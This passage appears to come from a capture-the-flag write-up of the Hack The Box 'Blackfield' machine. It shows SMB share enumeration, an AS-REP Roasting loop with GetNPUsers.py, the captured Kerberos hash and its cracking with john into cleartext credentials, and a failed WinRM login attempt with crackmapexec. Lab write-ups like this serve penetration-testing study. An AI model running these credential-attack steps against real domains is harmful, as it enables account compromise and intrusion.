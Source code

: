 ````
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 

````

- Reading the **profile$** share
- The share had a bucnh of users.  I sniped a few peculiar users: `support` `audit2020` 

## AS-REP Roasting (User: support) tgt hash

- Checking this list of users for any that have the UF_DONT_REQUIRE_PREAUTH flag set to true

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done`

**tgt hash:** 
````
$krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0

````

## Cracking hash

`sudo john <tgt_file> --wordlist=<password_list>`

- **Creds:** support / #00^BlackKnight

## Checking if support user is pwnable (win-rm access or not)

- Can I spawn an interactive shell? 

`crackmapexec winrm 10.10.10.192 -u support -p '#00^BlackKnight'`

````
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD\support:#00^BlackKnight "Failed to authenticate the user support with ntlm"

````
